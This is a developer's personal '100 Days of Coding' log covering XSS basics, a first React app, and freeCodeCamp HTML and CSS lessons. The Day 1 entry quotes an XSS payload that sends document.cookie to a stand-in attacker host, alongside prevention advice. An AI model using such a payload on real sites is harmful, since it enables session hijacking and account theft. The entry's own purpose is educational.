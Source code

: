 
# 100 Days of Coding - Log

## Start of Log

## Day 1 - July 24, 2019
**Subject:** Cross-Site Scripting
**Today's Progress:** I was able to understand the concept of Cross-Site Scripting (XSS), it's use and prevention.

**Thoughts:**
 XSS flaws occur whenever an applications includes untrusted data in a new web page without proper validation or escaping or updates a n existing web page w/ user supplied data using a browser api that can create Javascript.

It enables attackers to inject client-side scripts into web pages viewed by other users.

### What does XSS can do?
 - Malicious javascript can be used to do all sorts of malicious attacks because basically, it can access the api or anything that connects to the database. it also can affect the behavior of the page.
- it can be used to steal user cookies that allows the attacker to use the website pretendingto be that user that he stole.

### Example of injections to the `<input>` tags or in the URL:
	`><script>document.location='http://www.attacker.com/cgi-bin/cookie.cgi?foo='+document.cookie</script>`.

or other HTML Tags like what i've tested `<i>` which transformed the remainder of the elements in the HTML Body into _Italic_.

### Preventions:
 - The preferred option is to properly escape untrusted data based on HTML context that the data will be placed into.
 - avoid passing untrusted data to Javascript and other browser APIs that can generate active content.
 
## 

## Day 2 - July 25, 2019

**Subject:** Javascript (ReactJS)

**Today's Progress:** I started creating my first react app with `npx create-react-app react-app` and created my own _index.js_ file.

**Thoughts:**

I Encountered a problem in running the `npm install -g create-react-app` and `npx create-react-app react-app` commands on my terminal so i had to surf on the web on how can i fix it. but luckily it was fixed by running the `sudo chown -r <path>` command.

  

I run my app with `npm start` on the terminal and prints _Hello World_

  

I put these lines of codes in my _index.js_ as a test for starting the app.

  

```
import React from 'react';
import ReactDOM from 'react-dom';

const App = () => {
return <div>Hello World</div>
};

ReactDOM.render(
<App />,
document.querySelector('#root')
);
```
<br>

|  import | React | from | 'react' |
|---------|-------|------|---------|
|gives me access to<br>codes from other files<br>or dependencies <br> that I will import.|The variable I want <br> to assign this import<br> to.| I'm about to specify<br>the name of the<br>library or file that I'm<br>importing from.|The name of the<br>dependency or <br> path to the file I<br>am importing.

###

`ReactDOM.render` takes the component and shows it on the screen.

##

## Day 3 - July 26, 2019

**Subject:** Basic HTML and HTML5

**Today's Progress:** I finished the first part of the Responsive Web Design Certification in [https://learn.freecodecamp.org/](https://learn.freecodecamp.org/) which is Basic HTML and HTML5.

![enter image description here](https://i.imgur.com/M3IzbHz.png)

##

## Day 4 - July 29, 2019

**Subject:** Basic CSS

**Today's Progress:** I continued working with the course on freecodecamp site and done with changing color text up to sizing images.
![enter image description here](https://i.imgur.com/62Mubc2.png)

##

## Day 5 - July 30, 2019
**Subject:** Basic CSS

**Today's Progress:** I continued working with the course on freecodecamp site and done with more than half of the topic. I've finished starting from Adding Borders around the Element up to Override styles in Subsequent CSS.

![enter image description here](https://i.imgur.com/s1dpdHM.png)


## Day 6 - July 31, 2019
**Subject:** Basic CSS

**Today's Progress:** I finished the course for the `Basic CSS` and tried to create variables that can be use all through the CSS file.

![enter image description here](https://i.imgur.com/eWT2INn.png)

## Day 7 - August 1, 2019
**Subject:** Applied Visual Design / CSS

**Today's Progress:** I started working with the `Applied Visual Design` Course in the freecodecamp site and had reviewed about some of the techniques in HTML and CSS.

![enter image description here](https://i.imgur.com/GtaJ0kV.png)
![enter image description here](https://i.imgur.com/GH339YD.png)

## Day 8 - August 2, 2019
**Subject:** Applied Visual Design / CSS

**Today's Progress:** I continued working with the `Applied Visual Design` Course and learned new things that I haven't use in my coding career. I mostly use the hex code `#` or the `rgba()` for color specifications but recently here in the codecamp, I learned about the `hsl()` for _Hue, Saturation and Lightness_ which will be a good help when I proceed with the designing for future projects. I also tried to create a graphic object by using css codes. I managed to had a _Moon_ output as a graphic object and tried to manipulate other `HTML ELEMENTS`.

![enter image description here](https://i.imgur.com/PeZMwuK.png)

## Day 9 - August 5, 2019
**Subject:** Applied Visual Design / CSS
**Today's Progress:** I continued working with the `Applied Visual Design` and finished the whole course. I tried to create complex shape and animation by keyframes using CSS.

![Here are the remaining exercises on the course](https://i.imgur.com/avT7H53.png)